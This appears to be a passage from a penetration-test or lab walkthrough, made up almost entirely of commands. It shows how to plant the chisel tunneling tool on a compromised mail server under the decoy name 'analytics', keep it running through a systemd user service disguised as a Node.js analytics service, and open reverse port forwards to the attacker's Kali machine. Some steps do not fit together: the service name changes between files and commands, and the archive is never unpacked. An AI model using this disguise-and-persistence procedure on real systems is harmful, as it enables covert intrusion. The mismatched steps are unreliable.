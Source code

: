First, lets download `chisel`.
```
┌──(kali㉿kali)-[~/lateralmovement/chisel]
└─$ wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz
```

Next, we'll upload it to the mail server under the name "analytics."

```
┌──(kali㉿kali)-[~/lateralmovement/chisel]
└─$ scp chisel/chisel_1.9.1_linux_amd64 node-api@192.168.57.8:.config/.node/analytics
 -i ./id_rsa

node-api@mail:~/.config/.node$ chmod 755 .config/.node/analytics
```

Next, we will create a script that runs the chisel server on port `65499`.

`@mailserver/~/.config/.node/analytics.sh`
```
#!/bin/bash
/home/node-api/.config/.node/analytics server -p 65499 --reverse
```

After creating the script to run the chisel server on port `65499`, we need to make sure to assign executable permissions to it.

```
node-api@mail:~/.config/.node$ chmod 755 ./analytics.sh
```

The next step is to create a user service that runs the script.

`@mailserver/~/.config/systemd/user/node-analytics.service`
```
[Unit]
Description=Node.js debug analytics service

[Service]
Type=simple
ExecStart=/home/node-api/.config/.node/analytics.sh

[Install]
WantedBy=default.target
```

Our next action is to enable and start the service.

```
node-api@mail:~/.config/.systemd$ systemctl --user enable node-build
node-api@mail:~/.config/.systemd$ systemctl --user start node-build
```

Now, we can configure several port forwards and incorporate the necessary command into a script.

`@kali/~/portfwd.sh`
```
#!/bin/bash
./chisel_1.9.1_linux_amd64 client 192.168.57.8:65499 R:65500:0.0.0.0:65500 R:65510:0.0.0.0:65510 R:65520:0.0.0.0:65520 R:65530:0.0.0.0:65530
```
